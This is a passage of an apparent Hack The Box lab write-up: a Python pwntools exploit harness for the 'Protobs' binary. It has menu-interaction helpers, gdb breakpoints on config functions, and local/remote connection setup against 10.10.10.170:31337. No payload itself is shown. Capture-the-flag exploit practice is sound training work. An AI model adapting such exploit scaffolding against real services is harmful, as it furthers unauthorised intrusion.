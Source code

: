 ```python
	r.recvuntil("]: ")
	r.sendline(str(0))
	r.recvuntil("]: ")
	r.sendline(str(0))
	r.recvuntil("]: ")
	r.sendline(str(0))
	r.recvuntil("]: ")
	r.sendline(str(size))
	if size > 0:
		r.recvuntil("]: ")
	else:
		r.recvuntil('\n')
	r.sendline(data)

def display(index):
	r.recvuntil("$ ")
	r.sendline('3')
	r.recvuntil("]: ")
	r.sendline(str(index))

def delete(index):
	r.recvuntil("$ ")
	r.sendline('4')
	r.recvuntil("]: ")
	r.sendline(str(index))

def show():
	r.recvuntil("$ ")
	r.sendline('1')

def bye():
	r.recvuntil("$ ")
	r.sendline('5')

# Process information
binary  = "./Protobs"
libc    = "./libc-so.6"
host    = "10.10.10.170"
port    = 31337

# Attach gdb here
#
# 0x400cf0 -> list_configs
# 0x401012 -> new_config
# 0x400e95 -> read_config
# 0x400da0 -> del_config
#
def debug(breakpoints):
	script = ""
	for bp in breakpoints:
		script += "break *%s\n" % hex(bp)
	script += "continue"
	gdb.attach(r, script)

def start():
	if not args.REMOTE:
		return process(binary)
	else:
		return remote(host, port)

r = start()
if args.GDB:
	debug([0x400cf0, 0x401012, 0x400e95, 0x400da0])
```

[1]: https://www.hackthebox.eu/home/machines/profile/221
[2]: https://www.hackthebox.eu/home/users/profile/13531
[3]: https://www.hackthebox.eu/home/users/profile/64903
[4]: https://www.hackthebox.eu/